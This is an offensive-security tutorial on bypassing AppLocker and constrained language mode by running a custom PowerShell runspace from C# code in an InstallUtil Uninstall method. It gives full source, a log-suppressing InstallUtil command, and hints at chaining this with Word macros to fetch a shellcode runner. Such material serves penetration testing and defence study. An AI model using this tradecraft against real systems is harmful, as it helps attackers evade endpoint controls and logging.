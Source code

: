 PowerShell.exe is essentially a GUI application handling input and output. The real functionality lies inside the System.Management.Automation.dll managed DLL, which PowerShell.exe calls to create a runspace.
It is possible to leverage multithreading and parallel task execution through either Jobs or Runspaces. The APIs for creating a runspace are public and available to managed code written in C#.
This means we could code a C# application that creates a custom PowerShell runspace and executes our script inside it. This is beneficial since, custom runspaces are not restricted by AppLocker.
we can construct a constrained language mode bypass to allow arbitrary PowerShell execution.

We will have to bypass AppLocker executable rules to execute this C# code, we ca use native Windows applications( InstallUtil) that can be abused to bypass AppLocker by fooling the filter driver.
we will leverage InstallUtil, a command-line utility that allows us to install and uninstall server resources by executing the installer components in a specified assembly. This Microsoft-supplied tool obviously has legitimate uses, but we can abuse it to execute arbitrary C# code.

To use InstallUtil in this way, we must put the code we want to execute inside either the install or uninstall methods of the installer class.

We are only going to use the uninstall method since the install method requires administrative privileges to execute.

create a new C# Console App project, we'll create a runspace through the CreateRunspace method of the System.Management.Automation.Runspaces namespace and Unfortunately, Visual Studio can not locate System.Management.Automation.Runspaces.
to resolve this, we must manually add the assembly reference, C:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35 folder where we will select System.Management.Automation.dll.
Also refer System.Configuration.Install namespace, Assemblies menu > System.Configuration.Install

Although our code uses both the Main method and the Uninstall method, content in the Main method is not important in this example. However, the method itself must be present in the executable.
Since the content of the Main method is not part of the application whitelisting bypass, we could use it for other purposes, like bypassing antivirus.

Inside the Uninstall method, we can execute arbitrary C# code i.e custom runspace code. 

Custom runspace C# code inside Uninstall method:

      using System;
      using System.Management.Automation;
      using System.Management.Automation.Runspaces;
      using System.Configuration.Install;
      
      namespace Bypass
      {
          class Program
          {
              static void Main(string[] args)
              {
                  Console.WriteLine("This is the main method which is a decoy");
              }
          }
      
          [System.ComponentModel.RunInstaller(true)]
          public class Sample : System.Configuration.Install.Installer
          {
              public override void Uninstall(System.Collections.IDictionary savedState)
              {
                  String cmd = "$ExecutionContext.SessionState.LanguageMode | Out-File -FilePath C:\\Tools\\test.txt";
                  Runspace rs = RunspaceFactory.CreateRunspace();
                  rs.Open();
      
                  PowerShell ps = PowerShell.Create();
                  ps.Runspace = rs;
      
                  ps.AddScript(cmd);
      
                  ps.Invoke();
      
                  rs.Close();
              }
          }
      }

Before compiling the project, we'll switch from "Debug" to "Release" mode and select 64-bit for compilation.

To trigger our constrained language mode bypass code, we must invoke it through InstallUtil with /logfile to avoid logging to a file, /LogToConsole=false to suppress output on the console and /U to trigger the Uninstall method

    C:\Users\>C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Bypass.exe

At this point, it would be possible to reuse this tradecraft with the Microsoft Word macros we developed earlier since they are not limited by AppLocker. Instead of using WMI to directly start a PowerShell process and download the shellcode runner from our Apache web server, we could make WMI execute InstallUtil and obtain the same result despite AppLocker.

the compiled C# file has to be on disk when InstallUtil is invoked. 

